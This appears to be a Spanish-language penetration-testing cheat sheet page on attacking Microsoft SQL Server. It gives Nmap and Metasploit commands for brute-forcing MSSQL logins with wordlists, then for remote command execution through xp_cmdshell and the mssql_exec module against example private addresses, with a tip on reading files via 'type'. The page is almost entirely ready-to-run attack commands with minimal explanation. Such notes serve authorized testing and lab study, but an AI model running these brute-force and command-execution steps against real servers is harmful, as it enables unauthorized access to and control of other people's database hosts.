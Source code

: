 # MsSQL

## Fuerza Bruta

### Nmap

Podemos hacer uso de Nmap para hacerle fuerza bruta a este servicio:

```bash
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Para hacer fuerza bruta usaremos los siguientes modulos:

<pre class="language-perl"><code class="lang-perl"><strong>msfconsole
</strong><strong>
</strong><strong>use auxiliary/scanner/mssql/mssql_login
</strong>
set RHOSTS 192.168.1.1

set USER_FILE /root/Desktop/wordlist/common_users.txt

set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt

set VERBOSE false

exploit
</code></pre>

<figure><img src="../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

## RCE

### Nmap

Podemos hacer un RCE si tenemos credenciales de acceso y los permisos necesarios. Usaremos un script de nmap para ello:

{% hint style="success" %}
Podemos hacer uso del comando "type" para leer archivos de la maquina
{% endhint %}

```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=usuario,mssql.password=contraseña,ms-sql-xp-cmdshell.cmd="whoami" 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Otra de las opciones es hacer el RCE mediante este modulo de metasploit:

```perl
msfconsole

use auxiliary/admin/mssql/mssql_exec

set RHOSTS 10.0.20.101

set CMD whoami

exploit
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>
